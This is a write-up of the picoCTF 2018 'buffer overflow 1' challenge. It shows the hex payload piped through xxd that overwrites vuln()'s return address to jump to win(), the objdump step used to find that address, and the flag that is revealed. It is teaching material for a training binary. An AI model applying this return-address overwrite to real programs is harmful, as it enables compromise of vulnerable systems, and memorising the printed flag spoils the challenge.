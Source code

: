 ## Writeup for 2018 picoCTF: buffer overflow 1
Binary Exploitation, 200 points

### Problem
> Okay now you're cooking! This time can you overflow the buffer and return to the flag function in this [program](https://2018shell.picoctf.com/static/64108e53cad29c810b4f6b214d183a8a/vuln)? You can find it in /problems/buffer-overflow-1_2_86cbe4de3cdc8986063c379e61f669ba on the shell server. [Source](https://2018shell.picoctf.com/static/64108e53cad29c810b4f6b214d183a8a/vuln.c).

Our task is to overflow the buffer so that the return address of `vuln()` is changed to that of `win()`.  
Finding the location of `vuln()`'s return address involves some trial and error:  
```
echo "00000000: 6161 6161 6161 6161 6161 6161 6161 6161
      00000010: 6161 6161 6161 6161 6161 6161 6161 6161
      00000020: 1818 1818 1717 1717 1616 1616 1515 1515
      00000030: 1313 1313 1212 1212 1414 1414 1111 1111
      00000040: 1010 1010 0909 0909" | xxd -r | ./vuln
```
Output:  `Okay, time to return... Fingers Crossed... Jumping to 0x15151515`  

Observing the output it's clear that we should replace `1515 1515` with `win()`'s address, which we can find out is `0804 85cb` by `objdump -D vuln | grep win`  

Playing around it seems my machine is in Little Endian. So `cb85 0408` is the correct input, instead of `0804 85cb`.

### Solution:
```
objdump -D vuln | grep win
080485cb <win>:
 80485ed:	75 1a                	jne    8048609 <win+0x3e>
 --- --- --- 
echo "00000000: 6161 6161 6161 6161 6161 6161 6161 6161
      00000010: 6161 6161 6161 6161 6161 6161 6161 6161
      00000020: 1818 1818 1717 1717 1616 1616 cb85 0408
      00000030: 1313 1313 1212 1212 1414 1414 1111 1111
      00000040: 1010 1010 0909 0909" | xxd -r | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80485cb
picoCTF{addr3ss3s_ar3_3asy56a7b196}Segmentation fault (core dumped)
```
**Flag: picoCTF{addr3ss3s_ar3_3asy56a7b196}**
